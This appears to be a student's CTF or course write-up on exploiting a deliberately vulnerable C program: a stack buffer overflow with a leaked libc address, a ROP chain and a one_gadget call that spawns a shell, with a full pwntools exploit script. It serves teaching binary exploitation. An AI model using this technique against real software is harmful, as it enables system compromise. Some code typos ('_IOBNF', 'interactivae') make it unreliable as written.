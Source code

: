 ```yaml
---
title: Simple PWN - 0x08(one_gadget with ROP)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x08(one_gadget with ROP)
###### tags: `CTF` `PWN` `eductf`

## one_gadget background
[Day25: [Misc] 我從來沒想過我會害怕寫 code](https://ithelp.ithome.com.tw/articles/10226977)
> 原理是在 `glibc` 裡面有很多會透過 `execve` 執行 `/bin/sh`、再調用外部系統指令的 assembly，當 explolit 已經得知 `libc` 的位之後而且可以控制 RIP 之後，就可以直接跳該位置達成 shell out，不需要再辛苦堆 stack 上的參數

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IOBNF, 0);

    char s[0x10];

    printf("Your libc: %p", printf);
    read(0, s, 0x100);

    return 0;
}
```
* The program has buffer overflow, however it has no backdoor method can access and has no global variable can write shellcode. Thus, we can consider to use `ROP` to get shell.
* Note that, it must be a dynamic library, so DO NOT use `-static` to compile it.
    ```bash!
    gcc -o one_gadget_with_rop one_gadget_with_rop.c -no-pie -fno-stack-protector -z norelro -zexecstack
    ```

## Exploit
* First, we use [<font color="FF0000">`ldd`</font>](https://shengyu7697.github.io/linux-ldd/) command to find what library the program will use.
    ![](https://imgur.com/ycRb8Tv.png)
* In addition, we use `one_gadget` command to find `execvs`
    * Note that, how to use it can refer to [one_gadget用法](https://blog.csdn.net/weixin_43092232/article/details/105085880)
    * We use `0xebcf8 execve("/bin/sh", rsi, rdx)` as our method
    ![](https://imgur.com/Y7BBH5J.png)
        * <font color="FF0000">Note:</font> it has 3 constraint so that we can get the shell
        ```bash!
        address rbp-0x78 is writable
        [rsi] == NULL || rsi == NULL
        [rdx] == NULL || rdx == NULL
        ```
* Then, we use `one_gadget` command to get `ROP` chain
    ```bash!
    ROPgadget --binary one_gadget_with_rop --only "pop|ret" > one_gadget
    vim one_gadget
    ```
    You can see that because we didn't compile with library, the gadget that we may can use is very few.
    ![](https://imgur.com/DuGINHL.png)
    The solution is using the gadget that `libc` have:
    ```bash!
    $ ROPgadget --binary  /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" > one_gadget
    $ vim one_gadget
    ```
    We must satisfied one_gadget constraint. `0x90529` and `0x2be51` are the offset of `/lib/x86_64-linux-gnu/libc.so.6`. Therefore, if we want to call these gadget, <font color="FF0000">we must find out the real base address of `/lib/x86_64-linux-gnu/libc.so.6`</font>.
    ![](https://imgur.com/3h5PqcO.png)
    ![](https://imgur.com/Z2bBbhJ.png)
* Because, `ASLR` is turn on in default, so the address of library will be random, we just know the offset of library. In original code, it told us the `printf` address in `/lib/x86_64-linux-gnu/libc.so.6` → <font color="FF0000">`0x7ffff7def770`</font>
    ![](https://imgur.com/nuYGx24.png)
    Used `gdb` can find the current address of library → <font color="FF0000">`0x7ffff7d8f000`</font>
    ![](https://imgur.com/Et3r2hI.png)
    Then we can know the offset and construct apart of payload as below 
    $$0x7ffff7def770 - 0x7ffff7d8f000 = 0x60770$$
    ```python!=
    from pwn import *
    import sys

    context.arch = 'amd64'

    r = process('./one_gadget_with_rop')

    r.recvuntil("Your libc: ")
    libc = int(r.recv(14), 16) - 0x60770
    info(f"libc: {hex(libc)}")
    ```
* And prepare our gadget:
    ```python!=11
    pop_rdx_rbx_ret = libc + 0x90529
    pop_rsi_ret = libc + 0x2be51
    ```
* Construct whole payload with considering the constraint:
    ```python!=13
    r.send(b'a'*0x10 + p64(0x404000) + p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0) + p64(libc+0xebcf8))
    r.interactivae()
    ```
    * `b'a'*0x10` is for `$rsi`
    * `p64(0x404000)` is an arbitrary writable and readable address for `$rbp-0x78` one of the constraint of one_gadget
    * `p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0)` is what we did in [last lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/rki3GF0cs) of `ROP`
    * `p64(libc+0xebcf8)` is the one_gadget that we choose at the beginning.
* Finally, we got shell!!!
    ![](https://imgur.com/iIETaBy.png)


## Reference
[Linux ldd 查看執行檔執行時需要哪些 library](https://shengyu7697.github.io/linux-ldd/)
[Pwn week1](https://youtu.be/ktoVQB99Gj4)